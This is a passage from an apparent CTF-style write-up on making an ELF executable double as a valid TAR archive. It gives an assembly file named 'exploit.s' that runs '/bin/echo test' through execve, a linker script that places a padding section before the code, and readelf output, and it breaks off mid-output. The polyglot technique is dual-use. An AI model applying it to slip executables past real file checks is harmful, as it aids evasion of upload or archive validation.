  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
                 0x0000000000000150 0x0000000000000150  R      0x1000
  LOAD           0x0000000000001000 0x0000000000401000 0x0000000000401000
                 0x000000000000001d 0x000000000000001d  R E    0x1000
  NOTE           0x0000000000000120 0x0000000000400120 0x0000000000400120
                 0x0000000000000030 0x0000000000000030  R      0x8
  GNU_PROPERTY   0x0000000000000120 0x0000000000400120 0x0000000000400120
                 0x0000000000000030 0x0000000000000030  R      0x8

 Section to Segment mapping:
  Segment Sections...
   00     .note.gnu.property 
   01     .text 
   02     .note.gnu.property 
   03     .note.gnu.property 

There is no dynamic section in this file.

There are no relocations in this file.
No processor specific unwind information to decode

Symbol table '.symtab' contains 7 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
     0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS hello.o
     2: 0000000000401017     0 NOTYPE  LOCAL  DEFAULT    2 msg
     3: 0000000000401000     0 NOTYPE  GLOBAL DEFAULT    2 _start
     4: 0000000000402000     0 NOTYPE  GLOBAL DEFAULT    2 __bss_start
     5: 0000000000402000     0 NOTYPE  GLOBAL DEFAULT    2 _edata
     6: 0000000000402000     0 NOTYPE  GLOBAL DEFAULT    2 _end

No version information found in this file.

Displaying notes found in: .note.gnu.property
  Owner                Data size        Description
  GNU                  0x00000020       NT_GNU_PROPERTY_TYPE_0
      Properties: x86 feature used: x86
        x86 ISA used: x86-64-baseline
```

Essentially, the program consists of the TEXT segment, the symbol table, and the string table. The issue is that the TAR header is 512 bytes (with the actual header being 500 bytes, but TAR uses 512-byte sectors). To create a valid TAR, we need to preserve the TAR data, but doing so would overwrite the TEXT segment of the ELF. How can we resolve this?

The plan is to create a new segment in the ELF file called CUSTOM. This segment will store part of the TAR header and the TAR data. The program will ignore the CUSTOM segment.



Let's modify the program to create the new segment.

```s
.global _start
.text
_start:
    mov   $59, %al
    lea   cmd(%rip), %rdi
    lea   argv(%rip), %rsi
    xor   %rdx, %rdx
    syscall
    
    mov   $60, %al
    xor   %rdi, %rdi
    syscall

cmd:
    .ascii "/bin/echo\0"

arg1:
    .ascii "test\0"

argv:
    .quad cmd
    .quad arg1
    .quad 0

.section .custom , "aw" , @progbits
    array: .fill 10240 , 1 , 0x66
```

And also make it execute a binary with an argument using `execve` (syscall number 59), in our case `echo test`. It first loads the command and arguments into registers, then makes the system call to run the program. Additionally, a new section called `.custom` is added, which is marked with the `aw` flags (allocatable and writable), containing a filled array of 10,240 bytes with the value `0x66`. We made the CUSTOM segment large enough to accommodate the TAR data by creating a 10,240-byte array, with all bytes set to 0x66.

```bash
$ as exploit.s -o exploit.o
$ ld exploit.o -o exploit
$ ./exploit
exploit
$ readelf -a exploit
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Advanced Micro Devices X86-64
  Version:                           0x1
  Entry point address:               0x401000
  Start of program headers:          64 (bytes into file)
  Start of section headers:          18792 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         5
  Size of section headers:           64 (bytes)
  Number of section headers:         7
  Section header string table index: 6

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .note.gnu.pr[...] NOTE             0000000000400158  00000158
       0000000000000030  0000000000000000   A       0     0     8
  [ 2] .text             PROGBITS         0000000000401000  00001000
       000000000000003b  0000000000000000  AX       0     0     1
  [ 3] .custom           PROGBITS         0000000000402000  00002000
       0000000000002800  0000000000000000  WA       0     0     1
  [ 4] .symtab           SYMTAB           0000000000000000  00004800
       00000000000000f0  0000000000000018           5     6     8
  [ 5] .strtab           STRTAB           0000000000000000  000048f0
       0000000000000037  0000000000000000           0     0     1
  [ 6] .shstrtab         STRTAB           0000000000000000  00004927
       000000000000003c  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), l (large), p (processor specific)

There are no section groups in this file.

Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
                 0x0000000000000188 0x0000000000000188  R      0x1000
  LOAD           0x0000000000001000 0x0000000000401000 0x0000000000401000
                 0x000000000000003b 0x000000000000003b  R E    0x1000
  LOAD           0x0000000000002000 0x0000000000402000 0x0000000000402000
                 0x0000000000002800 0x0000000000002800  RW     0x1000
  NOTE           0x0000000000000158 0x0000000000400158 0x0000000000400158
                 0x0000000000000030 0x0000000000000030  R      0x8
  GNU_PROPERTY   0x0000000000000158 0x0000000000400158 0x0000000000400158
                 0x0000000000000030 0x0000000000000030  R      0x8

 Section to Segment mapping:
  Segment Sections...
   00     .note.gnu.property 
   01     .text 
   02     .custom 
   03     .note.gnu.property 
   04     .note.gnu.property 

There is no dynamic section in this file.

There are no relocations in this file.
No processor specific unwind information to decode

Symbol table '.symtab' contains 10 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
     0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS exploit.o
     2: 000000000040101c     0 NOTYPE  LOCAL  DEFAULT    2 cmd
     3: 0000000000401023     0 NOTYPE  LOCAL  DEFAULT    2 argv
     4: 000000000040101f     0 NOTYPE  LOCAL  DEFAULT    2 arg1
     5: 0000000000402000     0 NOTYPE  LOCAL  DEFAULT    3 array
     6: 0000000000401000     0 NOTYPE  GLOBAL DEFAULT    2 _start
     7: 0000000000404800     0 NOTYPE  GLOBAL DEFAULT    3 __bss_start
     8: 0000000000404800     0 NOTYPE  GLOBAL DEFAULT    3 _edata
     9: 0000000000404800     0 NOTYPE  GLOBAL DEFAULT    3 _end

No version information found in this file.

Displaying notes found in: .note.gnu.property
  Owner                Data size        Description
  GNU                  0x00000020       NT_GNU_PROPERTY_TYPE_0
      Properties: x86 feature used: x86
        x86 ISA used: x86-64-baseline
```

We have an issue: the CUSTOM segment needs to be placed before the TEXT segment, making it the first segment of the ELF. To achieve this, we'll need to perform some modifications using `ld` (the linker).

```bash
$ ld --verbose exploit.o -o exploit
GNU ld (GNU Binutils) 2.43.0
  Supported emulations:
   elf_x86_64
   elf32_x86_64
   elf_i386
   elf_iamcu
   i386pep
   i386pe
   elf64bpf
using internal linker script:
==================================================
/* Script for -z combreloc -z separate-code */
/* Copyright (C) 2014-2024 Free Software Foundation, Inc.
   Copying and distribution of this script, with or without modification,
   are permitted in any medium without royalty provided the copyright
   notice and this notice are preserved.  */
OUTPUT_FORMAT("elf64-x86-64", "elf64-x86-64",
              "elf64-x86-64")
OUTPUT_ARCH(i386:x86-64)
ENTRY(_start)
SEARCH_DIR("/usr/x86_64-pc-linux-gnu/lib64"); SEARCH_DIR("/usr/lib"); SEARCH_DIR("/usr/local/lib"); SEARCH_DIR("/usr/x86_64-pc-linux-gnu/lib");
SECTIONS
{
  PROVIDE (__executable_start = SEGMENT_START("text-segment", 0x400000)); . = SEGMENT_START("text-segment", 0x400000) + SIZEOF_HEADERS;
  .interp         : { *(.interp) }
  .note.gnu.build-id  : { *(.note.gnu.build-id) }
  .hash           : { *(.hash) }
  .gnu.hash       : { *(.gnu.hash) }
  .dynsym         : { *(.dynsym) }
  .dynstr         : { *(.dynstr) }
  .gnu.version    : { *(.gnu.version) }
  .gnu.version_d  : { *(.gnu.version_d) }
  .gnu.version_r  : { *(.gnu.version_r) }
  .rela.dyn       :
    {
      *(.rela.init)
      *(.rela.text .rela.text.* .rela.gnu.linkonce.t.*)
      *(.rela.fini)
      *(.rela.rodata .rela.rodata.* .rela.gnu.linkonce.r.*)
      *(.rela.data .rela.data.* .rela.gnu.linkonce.d.*)
      *(.rela.tdata .rela.tdata.* .rela.gnu.linkonce.td.*)
      *(.rela.tbss .rela.tbss.* .rela.gnu.linkonce.tb.*)
      *(.rela.ctors)
      *(.rela.dtors)
      *(.rela.got)
      *(.rela.bss .rela.bss.* .rela.gnu.linkonce.b.*)
      *(.rela.ldata .rela.ldata.* .rela.gnu.linkonce.l.*)
      *(.rela.lbss .rela.lbss.* .rela.gnu.linkonce.lb.*)
      *(.rela.lrodata .rela.lrodata.* .rela.gnu.linkonce.lr.*)
      *(.rela.ifunc)
    }
  .rela.plt       :
    {
      *(.rela.plt)
      PROVIDE_HIDDEN (__rela_iplt_start = .);
      *(.rela.iplt)
      PROVIDE_HIDDEN (__rela_iplt_end = .);
    }
  .relr.dyn : { *(.relr.dyn) }
  . = ALIGN(CONSTANT (MAXPAGESIZE));
  .init           :
  {
    KEEP (*(SORT_NONE(.init)))
  }
  .plt            : { *(.plt) *(.iplt) }
.plt.got        : { *(.plt.got) }
.plt.sec        : { *(.plt.sec) }
  .text           :
  {
    *(.text.unlikely .text.*_unlikely .text.unlikely.*)
    *(.text.exit .text.exit.*)
    *(.text.startup .text.startup.*)
    *(.text.hot .text.hot.*)
    *(SORT(.text.sorted.*))
    *(.text .stub .text.* .gnu.linkonce.t.*)
    /* .gnu.warning sections are handled specially by elf.em.  */
    *(.gnu.warning)
  }
  .fini           :
  {
    KEEP (*(SORT_NONE(.fini)))
  }
  PROVIDE (__etext = .);
  PROVIDE (_etext = .);
  PROVIDE (etext = .);
  . = ALIGN(CONSTANT (MAXPAGESIZE));
  /* Adjust the address for the rodata segment.  We want to adjust up to
     the same address within the page on the next page up.  */
  . = SEGMENT_START("rodata-segment", ALIGN(CONSTANT (MAXPAGESIZE)) + (. & (CONSTANT (MAXPAGESIZE) - 1)));
  .rodata         : { *(.rodata .rodata.* .gnu.linkonce.r.*) }
  .rodata1        : { *(.rodata1) }
  .eh_frame_hdr   : { *(.eh_frame_hdr) *(.eh_frame_entry .eh_frame_entry.*) }
  .eh_frame       : ONLY_IF_RO { KEEP (*(.eh_frame)) *(.eh_frame.*) }
  .sframe         : ONLY_IF_RO { *(.sframe) *(.sframe.*) }
  .gcc_except_table   : ONLY_IF_RO { *(.gcc_except_table .gcc_except_table.*) }
  .gnu_extab   : ONLY_IF_RO { *(.gnu_extab*) }
  /* These sections are generated by the Sun/Oracle C++ compiler.  */
  .exception_ranges   : ONLY_IF_RO { *(.exception_ranges*) }
  /* Adjust the address for the data segment.  We want to adjust up to
     the same address within the page on the next page up.  */
  . = DATA_SEGMENT_ALIGN (CONSTANT (MAXPAGESIZE), CONSTANT (COMMONPAGESIZE));
  /* Exception handling  */
  .eh_frame       : ONLY_IF_RW { KEEP (*(.eh_frame)) *(.eh_frame.*) }
  .sframe         : ONLY_IF_RW { *(.sframe) *(.sframe.*) }
  .gnu_extab      : ONLY_IF_RW { *(.gnu_extab) }
  .gcc_except_table   : ONLY_IF_RW { *(.gcc_except_table .gcc_except_table.*) }
  .exception_ranges   : ONLY_IF_RW { *(.exception_ranges*) }
  /* Thread Local Storage sections  */
  .tdata          :
   {
     PROVIDE_HIDDEN (__tdata_start = .);
     *(.tdata .tdata.* .gnu.linkonce.td.*)
   }
  .tbss           : { *(.tbss .tbss.* .gnu.linkonce.tb.*) *(.tcommon) }
  .preinit_array    :
  {
    PROVIDE_HIDDEN (__preinit_array_start = .);
    KEEP (*(.preinit_array))
    PROVIDE_HIDDEN (__preinit_array_end = .);
  }
  .init_array    :
  {
    PROVIDE_HIDDEN (__init_array_start = .);
    KEEP (*(SORT_BY_INIT_PRIORITY(.init_array.*) SORT_BY_INIT_PRIORITY(.ctors.*)))
    KEEP (*(.init_array EXCLUDE_FILE (*crtbegin.o *crtbegin?.o *crtend.o *crtend?.o ) .ctors))
    PROVIDE_HIDDEN (__init_array_end = .);
  }
  .fini_array    :
  {
    PROVIDE_HIDDEN (__fini_array_start = .);
    KEEP (*(SORT_BY_INIT_PRIORITY(.fini_array.*) SORT_BY_INIT_PRIORITY(.dtors.*)))
    KEEP (*(.fini_array EXCLUDE_FILE (*crtbegin.o *crtbegin?.o *crtend.o *crtend?.o ) .dtors))
    PROVIDE_HIDDEN (__fini_array_end = .);
  }
  .ctors          :
  {
    /* gcc uses crtbegin.o to find the start of
       the constructors, so we make sure it is
       first.  Because this is a wildcard, it
       doesn't matter if the user does not
       actually link against crtbegin.o; the
       linker won't look for a file to match a
       wildcard.  The wildcard also means that it
       doesn't matter which directory crtbegin.o
       is in.  */
    KEEP (*crtbegin.o(.ctors))
    KEEP (*crtbegin?.o(.ctors))
    /* We don't want to include the .ctor section from
       the crtend.o file until after the sorted ctors.
       The .ctor section from the crtend file contains the
       end of ctors marker and it must be last */
    KEEP (*(EXCLUDE_FILE (*crtend.o *crtend?.o ) .ctors))
    KEEP (*(SORT(.ctors.*)))
    KEEP (*(.ctors))
  }
  .dtors          :
  {
    KEEP (*crtbegin.o(.dtors))
    KEEP (*crtbegin?.o(.dtors))
    KEEP (*(EXCLUDE_FILE (*crtend.o *crtend?.o ) .dtors))
    KEEP (*(SORT(.dtors.*)))
    KEEP (*(.dtors))
  }
  .jcr            : { KEEP (*(.jcr)) }
  .data.rel.ro : { *(.data.rel.ro.local* .gnu.linkonce.d.rel.ro.local.*) *(.data.rel.ro .data.rel.ro.* .gnu.linkonce.d.rel.ro.*) }
  .dynamic        : { *(.dynamic) }
  .got            : { *(.got) *(.igot) }
  . = DATA_SEGMENT_RELRO_END (SIZEOF (.got.plt) >= 24 ? 24 : 0, .);
  .got.plt        : { *(.got.plt) *(.igot.plt) }
  .data           :
  {
    *(.data .data.* .gnu.linkonce.d.*)
    SORT(CONSTRUCTORS)
  }
  .data1          : { *(.data1) }
  _edata = .; PROVIDE (edata = .);
  . = ALIGN(ALIGNOF(NEXT_SECTION));
  __bss_start = .;
  .bss            :
  {
   *(.dynbss)
   *(.bss .bss.* .gnu.linkonce.b.*)
   *(COMMON)
   /* Align here to ensure that the .bss section occupies space up to
      _end.  Align after .bss to ensure correct alignment even if the
      .bss section disappears because there are no input sections.
      FIXME: Why do we need it? When there is no .bss section, we do not
      pad the .data section.  */
   . = ALIGN(. != 0 ? 64 / 8 : 1);
  }
  .lbss   :
  {
    *(.dynlbss)
    *(.lbss .lbss.* .gnu.linkonce.lb.*)
    *(LARGE_COMMON)
  }
  . = ALIGN(64 / 8);
  . = SEGMENT_START("ldata-segment", .);
  .lrodata   ALIGN(CONSTANT (MAXPAGESIZE)) + (. & (CONSTANT (MAXPAGESIZE) - 1)) :
  {
    *(.lrodata .lrodata.* .gnu.linkonce.lr.*)
  }
  .ldata   ALIGN(CONSTANT (MAXPAGESIZE)) + (. & (CONSTANT (MAXPAGESIZE) - 1)) :
  {
    *(.ldata .ldata.* .gnu.linkonce.l.*)
    . = ALIGN(. != 0 ? 64 / 8 : 1);
  }
  . = ALIGN(64 / 8);
  _end = .; PROVIDE (end = .);
  . = DATA_SEGMENT_END (.);
  /* Stabs debugging sections.  */
  .stab          0 : { *(.stab) }
  .stabstr       0 : { *(.stabstr) }
  .stab.excl     0 : { *(.stab.excl) }
  .stab.exclstr  0 : { *(.stab.exclstr) }
  .stab.index    0 : { *(.stab.index) }
  .stab.indexstr 0 : { *(.stab.indexstr) }
  .comment 0 (INFO) : { *(.comment); LINKER_VERSION; }
  .gnu.build.attributes : { *(.gnu.build.attributes .gnu.build.attributes.*) }
  /* DWARF debug sections.
     Symbols in the DWARF debugging sections are relative to the beginning
     of the section so we begin them at 0.  */
  /* DWARF 1.  */
  .debug          0 : { *(.debug) }
  .line           0 : { *(.line) }
  /* GNU DWARF 1 extensions.  */
  .debug_srcinfo  0 : { *(.debug_srcinfo) }
  .debug_sfnames  0 : { *(.debug_sfnames) }
  /* DWARF 1.1 and DWARF 2.  */
  .debug_aranges  0 : { *(.debug_aranges) }
  .debug_pubnames 0 : { *(.debug_pubnames) }
  /* DWARF 2.  */
  .debug_info     0 : { *(.debug_info .gnu.linkonce.wi.*) }
  .debug_abbrev   0 : { *(.debug_abbrev) }
  .debug_line     0 : { *(.debug_line .debug_line.* .debug_line_end) }
  .debug_frame    0 : { *(.debug_frame) }
  .debug_str      0 : { *(.debug_str) }
  .debug_loc      0 : { *(.debug_loc) }
  .debug_macinfo  0 : { *(.debug_macinfo) }
  /* SGI/MIPS DWARF 2 extensions.  */
  .debug_weaknames 0 : { *(.debug_weaknames) }
  .debug_funcnames 0 : { *(.debug_funcnames) }
  .debug_typenames 0 : { *(.debug_typenames) }
  .debug_varnames  0 : { *(.debug_varnames) }
  /* DWARF 3.  */
  .debug_pubtypes 0 : { *(.debug_pubtypes) }
  .debug_ranges   0 : { *(.debug_ranges) }
  /* DWARF 5.  */
  .debug_addr     0 : { *(.debug_addr) }
  .debug_line_str 0 : { *(.debug_line_str) }
  .debug_loclists 0 : { *(.debug_loclists) }
  .debug_macro    0 : { *(.debug_macro) }
  .debug_names    0 : { *(.debug_names) }
  .debug_rnglists 0 : { *(.debug_rnglists) }
  .debug_str_offsets 0 : { *(.debug_str_offsets) }
  .debug_sup      0 : { *(.debug_sup) }
  .gnu.attributes 0 : { KEEP (*(.gnu.attributes)) }
  /DISCARD/ : { *(.note.GNU-stack) *(.gnu_debuglink) *(.gnu.lto_*) }
}


==================================================
ld: mode elf_x86_64
attempt to open exploit.o succeeded
exploit.o
```

We can adjust this script to place the CUSTOM segment before the TEXT segment by adding a new line before the TEXT segment section.

```
/* Script for -z combreloc: combine and sort reloc sections */
/* Copyright (C) 2014-2018 Free Software Foundation, Inc.
	 Copying and distribution of this script, with or without modification,
	 are permitted in any medium without royalty provided the copyright
	 notice and this notice are preserved.  */
OUTPUT_FORMAT("elf64-x86-64", "elf64-x86-64",
				"elf64-x86-64")
OUTPUT_ARCH(i386:x86-64)
ENTRY(_start)
SEARCH_DIR("=/usr/local/lib/x86_64-linux-gnu"); SEARCH_DIR("=/lib/x86_64-linux-gnu"); SEARCH_DIR("=/usr/lib/x86_64-linux-gnu"); SEARCH_DIR("=/usr/lib/x86_64-linux-gnu64"); SEARCH_DIR("=/usr/local/lib64"); SEARCH_DIR("=/lib64"); SEARCH_DIR("=/usr/lib64"); SEARCH_DIR("=/usr/local/lib"); SEARCH_DIR("=/lib"); SEARCH_DIR("=/usr/lib"); SEARCH_DIR("=/usr/x86_64-linux-gnu/lib64"); SEARCH_DIR("=/usr/x86_64-linux-gnu/lib");
SECTIONS
{
	/* Read-only sections, merged into text segment: */
	PROVIDE (__executable_start = SEGMENT_START("text-segment", 0x400000)); . = SEGMENT_START("text-segment", 0x400000) + SIZEOF_HEADERS;
	.interp         : { *(.interp) }
	.note.gnu.build-id : { *(.note.gnu.build-id) }
	.hash           : { *(.hash) }
	.gnu.hash       : { *(.gnu.hash) }
	.dynsym         : { *(.dynsym) }
	.dynstr         : { *(.dynstr) }
	.gnu.version    : { *(.gnu.version) }
	.gnu.version_d  : { *(.gnu.version_d) }
	.gnu.version_r  : { *(.gnu.version_r) }
	.rela.dyn       :
		{
			*(.rela.init)
			*(.rela.text .rela.text.* .rela.gnu.linkonce.t.*)
			*(.rela.fini)
			*(.rela.rodata .rela.rodata.* .rela.gnu.linkonce.r.*)
			*(.rela.data .rela.data.* .rela.gnu.linkonce.d.*)
			*(.rela.tdata .rela.tdata.* .rela.gnu.linkonce.td.*)
			*(.rela.tbss .rela.tbss.* .rela.gnu.linkonce.tb.*)
			*(.rela.ctors)
			*(.rela.dtors)
			*(.rela.got)
			*(.rela.bss .rela.bss.* .rela.gnu.linkonce.b.*)
			*(.rela.ldata .rela.ldata.* .rela.gnu.linkonce.l.*)
			*(.rela.lbss .rela.lbss.* .rela.gnu.linkonce.lb.*)
			*(.rela.lrodata .rela.lrodata.* .rela.gnu.linkonce.lr.*)
			*(.rela.ifunc)
		}
	.rela.plt       :
		{
			*(.rela.plt)
			PROVIDE_HIDDEN (__rela_iplt_start = .);
			*(.rela.iplt)
			PROVIDE_HIDDEN (__rela_iplt_end = .);
		}
	.init           :
	{
		KEEP (*(SORT_NONE(.init)))
	}
	.plt            : { *(.plt) *(.iplt) }
.plt.got        : { *(.plt.got) }
.plt.sec        : { *(.plt.sec) }
	.custom : { *(.custom) }
	.text           :
	{
		*(.text.unlikely .text.*_unlikely .text.unlikely.*)
		*(.text.exit .text.exit.*)
		*(.text.startup .text.startup.*)
		*(.text.hot .text.hot.*)
		*(.text .stub .text.* .gnu.linkonce.t.*)
		/* .gnu.warning sections are handled specially by elf32.em.  */
		*(.gnu.warning)
	}
	.fini           :
	{
		KEEP (*(SORT_NONE(.fini)))
	}
	PROVIDE (__etext = .);
	PROVIDE (_etext = .);
	PROVIDE (etext = .);
	.rodata         : { *(.rodata .rodata.* .gnu.linkonce.r.*) }
	.rodata1        : { *(.rodata1) }
	.eh_frame_hdr : { *(.eh_frame_hdr) *(.eh_frame_entry .eh_frame_entry.*) }
	.eh_frame       : ONLY_IF_RO { KEEP (*(.eh_frame)) *(.eh_frame.*) }
	.gcc_except_table   : ONLY_IF_RO { *(.gcc_except_table
	.gcc_except_table.*) }
	.gnu_extab   : ONLY_IF_RO { *(.gnu_extab*) }
	/* These sections are generated by the Sun/Oracle C++ compiler.  */
	.exception_ranges   : ONLY_IF_RO { *(.exception_ranges
	.exception_ranges*) }
	/* Adjust the address for the data segment.  We want to adjust up to
		 the same address within the page on the next page up.  */
	. = DATA_SEGMENT_ALIGN (CONSTANT (MAXPAGESIZE), CONSTANT (COMMONPAGESIZE));
	/* Exception handling  */
	.eh_frame       : ONLY_IF_RW { KEEP (*(.eh_frame)) *(.eh_frame.*) }
	.gnu_extab      : ONLY_IF_RW { *(.gnu_extab) }
	.gcc_except_table   : ONLY_IF_RW { *(.gcc_except_table .gcc_except_table.*) }
	.exception_ranges   : ONLY_IF_RW { *(.exception_ranges .exception_ranges*) }
	/* Thread Local Storage sections  */
	.tdata	  : { *(.tdata .tdata.* .gnu.linkonce.td.*) }
	.tbss		  : { *(.tbss .tbss.* .gnu.linkonce.tb.*) *(.tcommon) }
	.preinit_array     :
	{
		PROVIDE_HIDDEN (__preinit_array_start = .);
		KEEP (*(.preinit_array))
		PROVIDE_HIDDEN (__preinit_array_end = .);
	}
	.init_array     :
	{
		PROVIDE_HIDDEN (__init_array_start = .);
		KEEP (*(SORT_BY_INIT_PRIORITY(.init_array.*) SORT_BY_INIT_PRIORITY(.ctors.*)))
		KEEP (*(.init_array EXCLUDE_FILE (*crtbegin.o *crtbegin?.o *crtend.o *crtend?.o ) .ctors))
		PROVIDE_HIDDEN (__init_array_end = .);
	}
	.fini_array     :
	{
		PROVIDE_HIDDEN (__fini_array_start = .);
		KEEP (*(SORT_BY_INIT_PRIORITY(.fini_array.*) SORT_BY_INIT_PRIORITY(.dtors.*)))
		KEEP (*(.fini_array EXCLUDE_FILE (*crtbegin.o *crtbegin?.o *crtend.o *crtend?.o ) .dtors))
		PROVIDE_HIDDEN (__fini_array_end = .);
	}
	.ctors          :
	{
		/* gcc uses crtbegin.o to find the start of
			 the constructors, so we make sure it is
			 first.  Because this is a wildcard, it
			 doesn't matter if the user does not
			 actually link against crtbegin.o; the
			 linker won't look for a file to match a
			 wildcard.  The wildcard also means that it
			 doesn't matter which directory crtbegin.o
			 is in.  */
		KEEP (*crtbegin.o(.ctors))
		KEEP (*crtbegin?.o(.ctors))
		/* We don't want to include the .ctor section from
			 the crtend.o file until after the sorted ctors.
			 The .ctor section from the crtend file contains the
			 end of ctors marker and it must be last */
		KEEP (*(EXCLUDE_FILE (*crtend.o *crtend?.o ) .ctors))
		KEEP (*(SORT(.ctors.*)))
		KEEP (*(.ctors))
	}
	.dtors          :
	{
		KEEP (*crtbegin.o(.dtors))
		KEEP (*crtbegin?.o(.dtors))
		KEEP (*(EXCLUDE_FILE (*crtend.o *crtend?.o ) .dtors))
		KEEP (*(SORT(.dtors.*)))
		KEEP (*(.dtors))
	}
	.jcr            : { KEEP (*(.jcr)) }
	.data.rel.ro : { *(.data.rel.ro.local* .gnu.linkonce.d.rel.ro.local.*) *(.data.rel.ro .data.rel.ro.* .gnu.linkonce.d.rel.ro.*) }
	.dynamic        : { *(.dynamic) }
	.got            : { *(.got) *(.igot) }
	. = DATA_SEGMENT_RELRO_END (SIZEOF (.got.plt) >= 24 ? 24 : 0, .);
	.got.plt        : { *(.got.plt)  *(.igot.plt) }
	.data           :
	{
		*(.data .data.* .gnu.linkonce.d.*)
		SORT(CONSTRUCTORS)
	}
	.data1          : { *(.data1) }
	_edata = .; PROVIDE (edata = .);
	. = .;
	__bss_start = .;
	.bss            :
	{
	 *(.dynbss)
	 *(.bss .bss.* .gnu.linkonce.b.*)
	 *(COMMON)
	 /* Align here to ensure that the .bss section occupies space up to
			_end.  Align after .bss to ensure correct alignment even if the
			.bss section disappears because there are no input sections.
			FIXME: Why do we need it? When there is no .bss section, we don't
			pad the .data section.  */
	 . = ALIGN(. != 0 ? 64 / 8 : 1);
	}
	.lbss   :
	{
		*(.dynlbss)
		*(.lbss .lbss.* .gnu.linkonce.lb.*)
		*(LARGE_COMMON)
	}
	. = ALIGN(64 / 8);
	. = SEGMENT_START("ldata-segment", .);
	.lrodata   ALIGN(CONSTANT (MAXPAGESIZE)) + (. & (CONSTANT (MAXPAGESIZE) - 1)) :
	{
		*(.lrodata .lrodata.* .gnu.linkonce.lr.*)
	}
	.ldata   ALIGN(CONSTANT (MAXPAGESIZE)) + (. & (CONSTANT (MAXPAGESIZE) - 1)) :
	{
		*(.ldata .ldata.* .gnu.linkonce.l.*)
		. = ALIGN(. != 0 ? 64 / 8 : 1);
	}
	. = ALIGN(64 / 8);
	_end = .; PROVIDE (end = .);
	. = DATA_SEGMENT_END (.);
	/* Stabs debugging sections.  */
	.stab          0 : { *(.stab) }
	.stabstr       0 : { *(.stabstr) }
	.stab.excl     0 : { *(.stab.excl) }
	.stab.exclstr  0 : { *(.stab.exclstr) }
	.stab.index    0 : { *(.stab.index) }
	.stab.indexstr 0 : { *(.stab.indexstr) }
	.comment       0 : { *(.comment) }
	/* DWARF debug sections.
		 Symbols in the DWARF debugging sections are relative to the beginning
		 of the section so we begin them at 0.  */
	/* DWARF 1 */
	.debug          0 : { *(.debug) }
	.line           0 : { *(.line) }
	/* GNU DWARF 1 extensions */
	.debug_srcinfo  0 : { *(.debug_srcinfo) }
	.debug_sfnames  0 : { *(.debug_sfnames) }
	/* DWARF 1.1 and DWARF 2 */
	.debug_aranges  0 : { *(.debug_aranges) }
	.debug_pubnames 0 : { *(.debug_pubnames) }
	/* DWARF 2 */
	.debug_info     0 : { *(.debug_info .gnu.linkonce.wi.*) }
	.debug_abbrev   0 : { *(.debug_abbrev) }
	.debug_line     0 : { *(.debug_line .debug_line.* .debug_line_end ) }
	.debug_frame    0 : { *(.debug_frame) }
	.debug_str      0 : { *(.debug_str) }
	.debug_loc      0 : { *(.debug_loc) }
	.debug_macinfo  0 : { *(.debug_macinfo) }
	/* SGI/MIPS DWARF 2 extensions */
	.debug_weaknames 0 : { *(.debug_weaknames) }
	.debug_funcnames 0 : { *(.debug_funcnames) }
	.debug_typenames 0 : { *(.debug_typenames) }
	.debug_varnames  0 : { *(.debug_varnames) }
	/* DWARF 3 */
	.debug_pubtypes 0 : { *(.debug_pubtypes) }
	.debug_ranges   0 : { *(.debug_ranges) }
	/* DWARF Extension.  */
	.debug_macro    0 : { *(.debug_macro) }
	.debug_addr     0 : { *(.debug_addr) }
	.gnu.attributes 0 : { KEEP (*(.gnu.attributes)) }
	/DISCARD/ : { *(.note.GNU-stack) *(.gnu_debuglink) *(.gnu.lto_*) }
}
```

Let’s link the program with the new script:

```bash
$ ld exploit.o -T ld.script -o exploit
$ readelf -a exploit
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Advanced Micro Devices X86-64
  Version:                           0x1
  Entry point address:               0x402918
  Start of program headers:          64 (bytes into file)
  Start of section headers:          10944 (bytes into file)
  Flags:                             0x0
